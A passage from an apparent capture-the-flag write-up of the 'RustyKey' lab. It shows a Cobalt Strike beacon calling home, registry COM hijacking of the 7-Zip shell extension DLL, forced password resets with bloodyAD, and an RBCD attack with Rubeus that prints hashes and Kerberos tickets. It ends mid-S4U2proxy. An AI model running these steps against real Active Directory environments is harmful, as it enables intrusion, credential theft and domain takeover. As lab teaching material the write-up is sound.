*Evil-WinRM* PS C:\Users\bb.morgan\Desktop> type user.txt
fa0df581c1e3f688bd8b4454bae3aabd
```

i will use my loader and get beacon here.

https://github.com/lineeralgebra/shellcoderunner

```bash
➜  shellcoderunner git:(main) ✗ python3 xor.py a.bin mysecretkey --compile
[+] NTAPI-based C++ runner saved to shellcode_runner.cpp
[*] Compiling shellcode_runner.cpp to runner.exe...
[+] Compilation successful: runner.exe
```



Lets check it

```bash
Internal Memo
From: bb.morgan@rustykey.htb
To: support-team@rustykey.htb
Subject: Support Group - Archiving Tool Access
Date: Mon, 10 Mar 2025 14:35:18 +0100
Hey team,
As part of the new Support utilities rollout, extended access has been temporarily granted to allow
testing and troubleshooting of file archiving features across shared workstations.
This is mainly to help streamline ticket resolution related to extraction/compression issues reported
by the Finance and IT teams. Some newer systems handle context menu actions differently, so
registry-level adjustments are expected during this phase.
A few notes:
- Please avoid making unrelated changes to system components while this access is active.
- This permission change is logged and will be rolled back once the archiving utility is confirmed
stable in all environments.
- Let DevOps know if you encounter access errors or missing shell actions.
Thanks,
BB Morgan
IT Department
```

We can see some hints:
1- extraction/compression
2- context menu actions
3- registry-level adjustments
3 lines in the few notes section
Searching in Google about context menu actions registry-level then found an interesting
post:
https://superuser.com/questions/290501/where-are-context-menu-actions-registered-in-the-registry



Following the post, we execute the 4 queries:

```bash
[07/01 19:25:38] beacon> shell reg query HKCU\Software\Classes\*\ShellEx\ContextMenuHandlers
[07/01 19:25:38] [*] Tasked beacon to run: reg query HKCU\Software\Classes\*\ShellEx\ContextMenuHandlers
[07/01 19:25:38] [+] host called home, sent: 92 bytes
[07/01 19:25:39] [+] received output:
ERROR: The system was unable to find the specified registry key or value.

[07/01 19:25:46] beacon> shell reg query HKCU\Software\Classes\Directory\ShellEx\ContextMenuHandlers
[07/01 19:25:46] [*] Tasked beacon to run: reg query HKCU\Software\Classes\Directory\ShellEx\ContextMenuHandlers
[07/01 19:25:47] [+] host called home, sent: 100 bytes
[07/01 19:25:47] [+] received output:
ERROR: The system was unable to find the specified registry key or value.

[07/01 19:25:57] beacon> shell reg query HKLM\Software\Classes\*\ShellEx\ContextMenuHandlers
[07/01 19:25:57] [*] Tasked beacon to run: reg query HKLM\Software\Classes\*\ShellEx\ContextMenuHandlers
[07/01 19:25:58] [+] host called home, sent: 92 bytes
[07/01 19:25:58] [+] received output:

HKEY_LOCAL_MACHINE\Software\Classes\*\ShellEx\ContextMenuHandlers\7-Zip
HKEY_LOCAL_MACHINE\Software\Classes\*\ShellEx\ContextMenuHandlers\ModernSharing
HKEY_LOCAL_MACHINE\Software\Classes\*\ShellEx\ContextMenuHandlers\Open With
HKEY_LOCAL_MACHINE\Software\Classes\*\ShellEx\ContextMenuHandlers\Open With EncryptionMenu
HKEY_LOCAL_MACHINE\Software\Classes\*\ShellEx\ContextMenuHandlers\Sharing
HKEY_LOCAL_MACHINE\Software\Classes\*\ShellEx\ContextMenuHandlers\{90AA3A4E-1CBA-4233-B8BB-535773D48449}
HKEY_LOCAL_MACHINE\Software\Classes\*\ShellEx\ContextMenuHandlers\{a2a9545d-a0c2-42b4-9708-a0b2badd77c8}
```



7-zip seems interesting, Check if we can find the CSLID

```bash
[07/01 19:27:44] beacon> shell reg query HKEY_LOCAL_MACHINE\Software\Classes\*\ShellEx\ContextMenuHandlers\7-Zip
[07/01 19:27:44] [*] Tasked beacon to run: reg query HKEY_LOCAL_MACHINE\Software\Classes\*\ShellEx\ContextMenuHandlers\7-Zip
[07/01 19:27:45] [+] host called home, sent: 112 bytes
[07/01 19:27:45] [+] received output:

HKEY_LOCAL_MACHINE\Software\Classes\*\ShellEx\ContextMenuHandlers\7-Zip
    (Default)    REG_SZ    {23170F69-40C1-278A-1000-000100020000}

```

Then search again in Google about 7-Zip menu integration and the CLSID, we found a good
thread: [Shell integration menus not working](https://sourceforge.net/p/sevenzip/discussion/45797/thread/96c9a5fe/)

```bash
...
HKCR\CLSID\{23170F69-40C1-278A-1000-000100020000}
must point to 7-zip.dll
Maybe installation doesn't work.
Try for example to install .msi version of 7-Zip.
The command
regsvr32 7-zip.dll
also can register that dll to HKCR\CLSID\{23170F69-40C1-278A-1000-000100020000}
```

Let's check in our environement:

```bash
[07/01 19:32:58] beacon> shell reg query "HKLM\SOFTWARE\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}"
[07/01 19:32:58] [*] Tasked beacon to run: reg query "HKLM\SOFTWARE\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}"
[07/01 19:32:58] [+] host called home, sent: 109 bytes
[07/01 19:32:59] [+] received output:

HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}
    (Default)    REG_SZ    7-Zip Shell Extension

HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32
```

and

```bash
[07/01 19:33:28] beacon> shell reg query "HKLM\SOFTWARE\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32"
[07/01 19:33:28] [*] Tasked beacon to run: reg query "HKLM\SOFTWARE\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32"
[07/01 19:33:28] [+] host called home, sent: 124 bytes
[07/01 19:33:28] [+] received output:

HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32
    (Default)    REG_SZ    C:\Program Files\7-Zip\7-zip.dll
    ThreadingModel    REG_SZ    Apartment
```

Found a path and a 7-zip.dll
Check if exists:

```bash
[07/01 19:33:48] beacon> dir "C:\Program Files\7-Zip\7-zip.dll"
[07/01 19:33:48] [+] Running dir (T1083)
[07/01 19:33:48] [*] Running dir (T1083)
[07/01 19:33:48] [+] host called home, sent: 5928 bytes
[07/01 19:33:49] [+] received output:
Contents of C:\Program Files\7-Zip\7-zip.dll:
	11/29/2024 10:00          101376 7-zip.dll
	                          101376 Total File Size for 1 File(s)
	                                                      0 Dir(s)
```

Then, now let’s see who can modify the path of this DLL:

```bash
 powershell get-acl "registry::HKLM\SOFTWARE\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" | format-list
```



Andd boommm!!!!! Any member of group Support has a FullControl

We know in our previous BHCE analysis that Support group is also in Protected Objects =>
Protected Users group:



and here is our target



And we can Account Take Over against EE.REED account as we have the privilege to change
its password:



### Way 2 - Automated process

We use [Reg1c1de](https://github.com/deadjakk/Reg1c1de), a Registry permission scanner written in C# for finding potential privesc
avenues within registry:

```bash
execute-assembly /home/elliot/Documents/HackTheBox/RustyKey/Reg1c1de.exe -df -v -o=output -r=HKLM -e
```

### Registry replacing to get shell (mm.turner)

```bash
➜  RustyKey faketime "$(ntpdate -q rustykey.htb | cut -d ' ' -f 1,2)" bloodyAD --host dc.rustykey.htb -k -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' add groupMember HELPDESK 'IT-COMPUTER3$'        
[+] IT-COMPUTER3$ added to HELPDESK
➜  RustyKey faketime "$(ntpdate -q rustykey.htb | cut -d ' ' -f 1,2)" bloodyAD --host dc.rustykey.htb -k -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' remove groupMember 'Protected Objects' 'SUPPORT'
[-] SUPPORT removed from Protected Objects
➜  RustyKey faketime "$(ntpdate -q rustykey.htb | cut -d ' ' -f 1,2)" bloodyAD --host dc.rustykey.htb -k -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' set password 'ee.reed' 'NewPassword123!'                                                                                                                
[+] Password changed successfully!
➜  RustyKey 
```

We create a malicious DLL via Cobalt Strike:

```bash
*Evil-WinRM* PS C:\Windows\Tasks> .\RunasCs.exe ee.reed "NewPassword123!" 'reg add "HKLM\SOFTWARE\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /d "C:\windows\tasks\a.dll" /f' -l 2 --force-profile
[*] Warning: The logon for user 'ee.reed' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

The operation completed successfully.
```

and we got beacon as mm.turner it will die fastly because of HTB cleanup script so i loaded my beacon fastly again.



## RBCD attacking (backupadmin) (root)

Check in BHCE:



The user MM.TURNER is a member of the group DELEGATIONMANAGER
The members of the group DELEGATIONMANAGER have can modify the msds-
AllowedToActOnBehalfOfOtherIdentity attribute on the computer DC$ .
The ability to modify the msDS-AllowedToActOnBehalfOfOtherIdentity property
allows an attacker to abuse resource-based constrained delegation (RBCD) to
compromise the remote computer system.

Check the Machine quota, to see if we can create a new machine:

```bash
➜  RustyKey faketime "$(ntpdate -q rustykey.htb | cut -d ' ' -f 1,2)" bloodyAD --host dc.rustykey.htb -k -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' get object 'DC=rustykey,DC=htb' --attr ms-DS-MachineAccountQuota              

distinguishedName: DC=rustykey,DC=htb
ms-DS-MachineAccountQuota: 0

```

S,nce the RBCD attack needs to obtain the computer object under the msds-AllowedToActOnBehalfOfOtherIdentity attribute, it's not possible to directly write DC
password.

Take a look at the DACL for the DC$

```bash
[07/01 20:08:03] beacon> powershell-import /home/elliot/tools/PowerView.ps1
[07/01 20:08:03] [*] Tasked beacon to import: /home/elliot/tools/PowerView.ps1
[07/01 20:08:03] [+] host called home, sent: 143784 bytes
[07/01 20:08:12] beacon> powerpick Set-ADComputer 'DC$' -PrincipalsAllowedToDelegateToAccount 'IT-Computer3$'
[07/01 20:08:12] [*] Tasked beacon to run: Set-ADComputer 'DC$' -PrincipalsAllowedToDelegateToAccount 'IT-Computer3$ (unmanaged)
[07/01 20:08:12] [+] host called home, sent: 137994 bytes
```

Then get the backupadmin TGT:



```bash
[07/01 20:11:53] beacon> execute-assembly /home/elliot/tools/Rubeus.exe s4u /user:IT-COMPUTER3$ /rc4:B52B582F02F8C0CD6320CD5EAB36D9C6 /impersonateuser:backupadmin /msdsspn:CIFS/DC.RUSTYKEY.HTB /ptt /nowrap
[07/01 20:11:54] [*] Tasked beacon to run .NET program: Rubeus.exe s4u /user:IT-COMPUTER3$ /rc4:B52B582F02F8C0CD6320CD5EAB36D9C6 /impersonateuser:backupadmin /msdsspn:CIFS/DC.RUSTYKEY.HTB /ptt /nowrap
[07/01 20:11:54] [+] host called home, sent: 556486 bytes
[07/01 20:11:55] [+] received output:

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 

[*] Action: S4U

[*] Using rc4_hmac hash: B52B582F02F8C0CD6320CD5EAB36D9C6
[*] Building AS-REQ (w/ preauth) for: 'rustykey.htb\IT-COMPUTER3$'
[*] Using domain controller: fe80::4fc2:b6ee:d79f:49ad%11:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFmDCCBZSgAwIBBaEDAgEWooIEqDCCBKRhggSgMIIEnKADAgEFoQ4bDFJVU1RZS0VZLkhUQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMcnVzdHlrZXkuaHRio4IEYDCCBFygAwIBF6EDAgECooIETgSCBErN7qPrjYW4yWObmlCIVkB5+gTrM/qUsDs6sUz+BtyiUx1S0puWUNL+zcfExYaDAyWyUX8KJien2SmczQypa24G7QSxl32GtdFsCMptXZ4S2yH5OzDzTCaZ6kflOxOQRa8Sh6MuE6rYYMjKlE8luL1/CWYBqLa/EDvhvvB3WCeFQkQ/DeaPlAEYFobTKMWKp62fPn9GZEDhEGUq2qxaNdf1DC6MrBZhXFNG2bP7ImWX3lyffDKNyH9Kk4Nm0q6h5ZO/lfOsI8+guP6D8qbCtmzTRVXW2MAI8FE4BenGCDKIpqeA0IX+ddoVx16GlumGxzi+n7zp1rB3F1TS1Yhk+qVr2NmBfg+RA4e1RD7xBbisCsBAU0yYP1fnT+Fpp8GTFiNG4vC9VYoQT2ZrgEB8Fvxa7D+QaA9l+oKriSncytpj5mqjzDkGxKfdehUWOmPzVGj6tCc9nfsfRj1TTKW7YLZGRbPmtNgFNQuNA0YzT8affJHG59MDWX1dOmocbrZdOqtoLtSfkn1mAxmLz4BmvDNKsnimyDEjheCwEbnaEK3UhtlbU/w+Xw2cciBOwheAV2/7dfXC3ApOgJCHHj0/1Hih1jY7Fj0osWhzzlKBNiIhmKyZX49B7ub3v4GGYkrqpdZylkCETSwhVq2C/KOugnazgnSnSEZzK87phtx+kTy4mDseiJnh4L2atmKcHEfZQxP+4tRfuaFBaQnBNUxQHLmuhjqWMFVUtDAnZBHQaE3aquw+/CL2hM/X0dyI3G0UTBcaR/CHzbEw2sc1iMl1fDQP2DRvjbxEF5plYjr/Qzcq4KtV99Yi/NemcpFfWsIf75Gt0yb4dhOr/iPCGxTrHOFfFufVMZxxM1XqRpFvlhvZZru6nYVf24U65EVqxNrX4ydJ3fIP8SEDBTYH49dGj40Y2dejM/YO2oM6sTpz5ct9z16iDqxz140aMZuFKfzQwHuo+8oFssWJdu8IrhfcaBb+R01uUgaYF7j7JM3C1qKs3g9xAupBJYDFQGracIA+jT2fSXMaHqEQnR6WiRVv/Mhwu+6GEkTainnFqTGbghrOI4DT0ur6SgpCMU58QDOCq8THOIx5dYZBAPQ+8mXCOqqOaW6gefxUpQmCPoAEHkxSVzy9/XSJYAXCtYTAZqqbRaBVyI2OByHBQTV9EvBhb3+fNTkq3mWvQhT1V2a3m7g1GEd8URDR3FG15zbOqWihFXI8ltgLuyqeluHWJ+vwVZRf132k1r18dQPzY/StxgopLhKwSrOv0Z7uIXGh6iITHVjXmlkHWk4oP3w/n5hbzx5J2bIz8REF25WzmZkpJ5QLLlY9+/oTu4QTgttEvY3pyYfy8rBTMn18mALEqurmCvfIaWKTCpImFPpOUwz1fq1lMj336ZO+Ls7T2zP1HUoY2345AUAtrm/rkGWVLyMhSXfYX9oGUk33HVDZYysU1uRmB0ReacUj5S6TAaujgdswgdigAwIBAKKB0ASBzX2ByjCBx6CBxDCBwTCBvqAbMBmgAwIBF6ESBBCWXljGElP0oRIxBFBVPqdOoQ4bDFJVU1RZS0VZLkhUQqIaMBigAwIBAaERMA8bDUlULUNPTVBVVEVSMySjBwMFAEDhAAClERgPMjAyNTA3MDIwODExNTRaphEYDzIwMjUwNzAyMTgxMTU0WqcRGA8yMDI1MDcwOTA4MTE1NFqoDhsMUlVTVFlLRVkuSFRCqSEwH6ADAgECoRgwFhsGa3JidGd0GwxydXN0eWtleS5odGI=

[*] Action: S4U

[*] Building S4U2self request for: 'IT-COMPUTER3$@RUSTYKEY.HTB'
[*] Using domain controller: dc.rustykey.htb (fe80::4fc2:b6ee:d79f:49ad%11)
[*] Sending S4U2self request to fe80::4fc2:b6ee:d79f:49ad%11:88
[+] S4U2self success!
[*] Got a TGS for 'backupadmin' to 'IT-COMPUTER3$@RUSTYKEY.HTB'
[*] base64(ticket.kirbi):

      doIFtjCCBbKgAwIBBaEDAgEWooIEzzCCBMthggTHMIIEw6ADAgEFoQ4bDFJVU1RZS0VZLkhUQqIaMBigAwIBAaERMA8bDUlULUNPTVBVVEVSMySjggSOMIIEiqADAgEXoQMCAQSiggR8BIIEeM/Ld7mN+iYNaylkIK+nOEIfVLngSs6UI2l59AcOHKxT+aVp23BgTvxuD5H0h3XdeLBJmmL0FTkVydQoXyR001JEDfyZmna7FyCDQOkr6ma+c/8PDHxKEY5lFCvusTWJcrV9pgSD59i2WbVE91nL4fxiA4VyCMuXDxLdGpFKhGBPDgn9TVGXm6rYIYkATF9mq3TZHwRB66azhJakzXBw6WngsKT/8aOzwGWGcDDpdTbv/Pr+LQ5P3dQtGGdSZd0PlCCkJnSzCVgzofB5I+EYrwvF78+qJIgYDJQtadyn8Mo4MBhGGk2UpkLjUFJ9RzFxNy4xXtpUyrTGgqVeNH84sRM67uEIYJFM3ZKaTIw1PHI6LWARj2SOW/agTnQNkC9MhyzSf9V7ExTs+duIFagokI3mhNttVSTm4JEFh0Maza42xKWAnvo05v/Qd1vSMkjOkTVbBqVtXtqHZKGDuv8ZW7V03z7J196bomh0FBrAeE8gvEuMzu2oTR88lsP25a7GIqze7jjzzDfSSIi4mAXI50liR7MpeXU9dhH33kaQgrexvMh9ZK+UR0r2q7R/HCfCfJ50pJe7Nx+leTuYZoGqgoaUu7ZJqWL5ZD+E9sHWDmKZffIL0qtT2N1idvszF+hWAUVGwktO9nWTg+IlH6o6KUjjoaZdgChhb/fAqeovxfergjQaJry5PUmgThf/Bh+2KMrDBYkukhHzX8qSaYKvUO/ZQ1wEZxvAhpobH1OzDKxY9/Db3I2Yok1JwaoihGQc7K9CLQuK3ySj9yVSlQz/wGOBoysSWA//buez35yQz1UQKoImSUmihdshs7suEZn+Vwetl2BEhlmG4QpvBNp+jvsn53E7Ut136gHkK5r+4geBowjiU9GrE4Gl3zx6k/130qoaa7fVWSE477ybqKKVG6kgjbn6d6c186d6P393z0AH5OxvIzUhigxrN8wZb5x7Mv+uhUWAYJytS7IUN0xTRKsjlLsD5dcb8dA1uDVZ2KqUrnpDTLsfACRKR5PUf7fxv/b974OiHEQFE+c/9E6Gj2atplQ6LRkDXdfbUCmZgHYC2YLxd0l9tRfq/QOVungCg6tmnFV2UYy207qwIQR5Ipy4fSQ5vVVCaS5tTPeCQiOjo/PE5duEf54ja+pF/eThrf0gMhtLJgnhOuc1huGevBX9R0bwrxkjBJhTg4PFT9cHpCrzGTBdOu2NmP5Tprc1jKEjMYAaH5pnmKaUP8JqYy2p5PKpaERr/x86HuBWSVAsJ8zdBbDCNc1eZniWNmw0r+CbkZk65MM/e9mIDMuurnQL7t7gN8IZbs//Z9jbTB/pcHykuOU/knQRIv+ASBNzjh/hDAU4MPSdXOusaVOL/swt1HFZQh6CnuMEQ5XtZbaf8SbgATInxozvtQNCJxLBXis2JPqpuJiow18ukKX/7ZvXU62sZf2uQ969oTN8rWhNYHBugqrSmkxtHGppu0cvxj1rc1T7hboO8g0aOMORLz/Xy8iak6D7QLRiYuX3GjPaTFJAlvm/qK6jgdIwgc+gAwIBAKKBxwSBxH2BwTCBvqCBuzCBuDCBtaAbMBmgAwIBF6ESBBCNaco2oFUOLLvkpg93Frn2oQ4bDFJVU1RZS0VZLkhUQqIYMBagAwIBCqEPMA0bC2JhY2t1cGFkbWluowcDBQBAoQAApREYDzIwMjUwNzAyMDgxMTU0WqYRGA8yMDI1MDcwMjE4MTE1NFqnERgPMjAyNTA3MDkwODExNTRaqA4bDFJVU1RZS0VZLkhUQqkaMBigAwIBAaERMA8bDUlULUNPTVBVVEVSMyQ=

[*] Impersonating user 'backupadmin' to target SPN 'CIFS/DC.RUSTYKEY.HTB'
[*] Building S4U2proxy request for service: 'CIFS/DC.RUSTYKEY.HTB'
[*] Using domain controller: dc.rustykey.htb (fe80::4fc2:b6ee:d79f:49ad%11)
[*] Sending S4U2proxy request to domain controller fe80::4fc2:b6ee:d79f:49ad%11:88
